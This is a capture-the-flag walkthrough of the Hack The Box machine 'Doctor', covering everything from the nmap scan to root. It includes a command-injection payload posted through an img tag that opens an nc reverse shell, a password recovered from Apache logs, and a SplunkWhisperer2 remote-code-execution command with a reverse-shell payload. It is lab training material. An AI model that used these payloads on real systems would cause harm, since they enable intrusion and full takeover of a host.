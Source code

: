 # DOCTOR

## IP =  10.10.10.209 

First of all (like always) I launch nmap:

```
sudo nmap -Pn -A -T5  10.10.10.209 
[sudo] password for kali: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-30 08:19 EST
Nmap scan report for 10.10.10.209
Host is up (0.13s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (92%), Linux 5.0 (92%), Linux 5.0 - 5.4 (91%), Linux 5.3 - 5.4 , Linux 5.4 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   133.98 ms 10.10.14.1
2   134.07 ms 10.10.10.209

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.70 seconds
```

It turns out there are 22, 80 and 8089 opened. After a quick look at 80 I see a website with many details, images etc. There is one thing which catches my atttention - email address.

`info@htb.com`

I thought about adding machin's IP to `/etc/hosts` :

```
$ vim /etc/hosts

127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.10.10.209    doctors.htb
```

Once done, I access `doctors.htb` and website redirects me to a login panel. There is also a possibility to register a new account, so I do it. After creation of new account, I can write a new message, so that could be a way to get a shell with netcat.

I was stuck here so after a quick research, I type:
`<img src=http://10.10.14.206/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.14.206'$IFS'1234')>`

in Content section and launch netcat listener `sudo nc -lvnp 1234` before clicking Post.

I get an access and also switch to interactive shell:

```
 sudo nc -lvnp 1234                                                                                             1 ⨯
listening on [any] 1234 ...
connect to [10.10.14.206] from (UNKNOWN) [10.10.10.209] 37046

id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)

whoami
web

python3 -c 'import pty;pty.spawn("/bin/bash")' 

web@doctor:~$ pwd
pwd
/home/web

web@doctor:~$ cd ..
cd ..

web@doctor:/home$ ls
ls
shaun  web

web@doctor:/home$ cd shaun
cd shaun/

web@doctor:/home/shaun$ ls
ls
user.txt

web@doctor:/home/shaun$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
web@doctor:/home/shaun$ id
id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
```

I find out two folders - web and shaun. In shaun there is user flag, however we have no permission to view it.

After some time of searching, I check apache2 logs and notice there is a file called `backup` which contains lots of logs:
```
web@doctor:~/blog$ cd /var/log/apache2
cd /var/log/apache2
web@doctor:/var/log/apache2$ ls
ls
access.log        access.log.5.gz  error.log.10.gz  error.log.5.gz
access.log.1      access.log.6.gz  error.log.11.gz  error.log.6.gz
access.log.10.gz  access.log.7.gz  error.log.12.gz  error.log.7.gz
access.log.11.gz  access.log.8.gz  error.log.13.gz  error.log.8.gz
access.log.12.gz  access.log.9.gz  error.log.14.gz  error.log.9.gz
access.log.2.gz   backup           error.log.2.gz   other_vhosts_access.log
access.log.3.gz   error.log        error.log.3.gz
access.log.4.gz   error.log.1      error.log.4.gz

web@doctor:/var/log/apache2$ cd backup
cd backup
bash: cd: backup: Not a directory

web@doctor:/var/log/apache2$ cat backup
10.10.14.4 - - [05/Sep/2020:11:09:48 +0200] "\x16\x03" 400 0 "-" "-"
10.10.14.4 - - [05/Sep/2020:11:09:48 +0200] "t3 12.1.2\n" 400 0 "-" "-"
10.10.14.4 - - [05/Sep/2020:11:09:48 +0200] "PROPFIND / HTTP/1.1" 405 521 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
10.10.14.4 - - [05/Sep/2020:11:09:48 +0200] "GET /.git/HEAD HTTP/1.1" 404 453 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
```

nd apparently recently modified password
```
web@doctor:/var/log/apache2$ grep -r password?email
grep -r password?email                                                                                                                              
backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
access.log:10.10.14.52 - - [30/Dec/2020:10:17:47 +0100] "GET /reset_password?email=Guitar123 HTTP/1.1" 200 1861 "-" "Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0"
access.log:10.10.14.52 - - [30/Dec/2020:12:52:13 +0100] "GET /home HTTP/1.1" 302 765 "http://doctors.htb/reset_password?email=Guitar123" "Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0"
access.log:10.10.14.52 - - [30/Dec/2020:12:52:14 +0100] "GET /login?next=%2Fhome HTTP/1.1" 200 2000 "http://doctors.htb/reset_password?email=Guitar123" "Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0"
```

Let's check if it matches with our user `shaun`

```
web@doctor:/var/log/apache2$ su - shaun
su - shaun
Password: Guitar123
```

Bingo:

```
shaun@doctor:~$ ls
ls
user.txt
shaun@doctor:~$ cat user
cat user.txt 
*********
```

Another step is to escalate to root. It seems that on port 8089 there is a running `splunk 8.0.5`. After some research, I find an exploit on `https://github.com/cnotin/SplunkWhisperer2`

Final command with payload is:
`python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.206 --username shaun --password Guitar123 --payload 'nc.traditional -e/bin/sh '10.10.14.206' '1234''`

```
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpm9lefgn2.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.206:8181/
10.10.10.209 - - [30/Dec/2020 09:57:18] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!
```

I ran netcat in another window and bingo, we are root:
```
$ sudo nc -lvnp 4444                                                                                             1 ⨯
listening on [any] 4444 ...
connect to [10.10.14.206] from (UNKNOWN) [10.10.10.209] 49468

whoami
root
python3 -c 'import pty;pty.spawn("/bin/bash")'  

root@doctor:/# ls -la

root@doctor:cd /root
cd /root

root@doctor:/root# ls -lah
ls -lah
total 44K
drwx------  7 root root 4,0K Sep 22 12:02 .
drwxr-xr-x 20 root root 4,0K Sep 15 12:51 ..
lrwxrwxrwx  1 root root    9 Jul 26 14:25 .bash_history -> /dev/null
-rw-r--r--  1 root root 3,1K Dez  5  2019 .bashrc
drwx------  3 root root 4,0K Aug 18 12:55 .cache
drwx------  4 root root 4,0K Jul 27 20:32 .config
drwx------  3 root root 4,0K Jul 27 20:32 .dbus
drwx------  3 root root 4,0K Sep  6 17:09 .gnupg
drwxr-xr-x  3 root root 4,0K Jul 21 19:17 .local
-rw-r--r--  1 root root  161 Dez  5  2019 .profile
-r--------  1 root root   33 Dez 30 06:53 root.txt
-rw-r--r--  1 root root   66 Sep 22 12:02 .selected_editor

root@doctor:/root# cat root.txt 
cat root.txt
***********
```

Mission accomplished :)

